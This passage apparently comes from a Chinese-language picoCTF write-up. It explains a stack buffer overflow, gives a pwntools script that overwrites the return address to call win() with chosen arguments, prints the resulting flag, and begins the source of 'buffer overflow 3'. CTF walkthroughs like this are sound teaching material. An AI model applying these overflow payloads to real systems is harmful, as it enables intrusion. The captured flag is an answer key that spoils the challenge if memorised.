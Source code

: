 ```C

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

需要传入两个正确的参数，注意一个函数的栈空间从低地址到高地址依次为：变量区、ebp/rbp、返回地址。需要将返回地址覆盖为win函数的起始地址，之后从逻辑上应该是win函数的返回地址，再之后才是win函数的参数。

payload：

```python
from pwn import *

# io = process(b'./vuln')
io = remote('saturn.picoctf.net', 65430)

io.sendlineafter(b'Please enter your string: ', cyclic(112) + p32(0x8049296) + p32(0xDEADBEEF) + p32(0xCAFEF00D) + p32(0xF00DF00D))

io.interactive()
```

picoCTF{argum3nt5_4_d4yZ_b3fd8f66}

## 8. buffer overflow 3

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
```